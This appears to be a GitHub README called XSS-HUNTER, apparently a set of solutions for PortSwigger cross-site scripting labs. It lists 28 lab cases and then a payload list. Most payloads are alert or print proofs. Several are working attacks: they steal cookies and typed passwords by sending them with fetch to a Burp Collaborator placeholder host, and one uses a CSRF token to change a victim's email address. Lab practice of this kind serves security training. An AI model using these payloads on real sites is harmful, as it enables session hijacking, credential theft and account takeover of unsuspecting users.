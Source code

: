 # XSS-HUNTER

## Case XSS
1. Reflected XSS into HTML context with nothing encoded
2. Stored XSS into HTML context with nothing encoded
3. DOM XSS in document.write sink using source location.search
4. DOM XSS in innerHTML sink using source location.search
5. DOM XSS in jQuery anchor href attribute sink using location.search source
6. DOM XSS in jQuery selector sink using a hashchange event
7. Reflected XSS into attribute with angle brackets HTML-encoded
8. Stored XSS into anchor href attribute with double quotes HTML-encoded
9. Reflected XSS into a JavaScript string with angle brackets HTML encoded
10. DOM XSS in document.write sink using source location.search inside a select element
11. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
12. Stored DOM XSS
13. Reflected XSS into HTML context with most tags and attributes blocked
14. Reflected XSS into HTML context with all tags blocked except custom ones
15. Reflected XSS with some SVG markup allowed
16. Reflected XSS in canonical link tag
17. Reflected XSS into a JavaScript string with single quote and backslash escaped
18. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
19. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
20. Exploiting cross-site scripting to steal cookies
21. Exploiting cross-site scripting to capture passwords
22. Exploiting XSS to perform CSRF
23. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
24. Reflected XSS with AngularJS sandbox escape without strings
25. Reflected XSS with AngularJS sandbox escape and CSP
26. Reflected XSS with event handlers and href attributes blocked
27. Reflected XSS protected by very strict CSP, with dangling markup attack
28. Reflected XSS protected by CSP, with CSP bypass


## Payload
Reflected XSS
1. ```<script>alert(1)</script>```
2. ```"><svg onload=alert(1)>```
3. ```<img src=1 onerror=alert(1)>```
4. ```javascript:alert(document.cookie)```
5. ```<iframe src="https://YOUR-LAB-ID.com/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>```
6. ```"onmouseover="alert(1)```
7. ```javascript:alert(1)```
8. ```'-alert(1)-'```
9. ```product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>```
10. ```{{$on.constructor('alert(1)')()}}```
11. ```\"-alert(1)}//```
12. ```<><img src=1 onerror=alert(1)>```
13. ```<img src=1 onerror=print()>```
14. ```<script>location = 'https://YOUR-LAB-ID.com?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script>```
15. ```/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E```
16. ```/?%27accesskey=%27x%27onclick=%27alert(1)```
17. ```</script><script>alert(1)</script>```
18.  ```\'-alert(1)//```
19. ```http://foo?&apos;-alert(1)-&apos;```
20. ```<input name=username id=username><input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{method:'POST',mode: 'no-cors',body:username.value+':'+this.value});">```
221. ```<script>var req = new XMLHttpRequest();req.onload = handleResponse;req.open('get','/my-account',true);req.send();function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')};</script>```
22. ```<script>fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>```
23. ```${alert(1)}```
24. ```/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1```
25. ```<script>location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';</script>. ```
26. ```?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E```
27. ```/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27```
28. ```?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27```

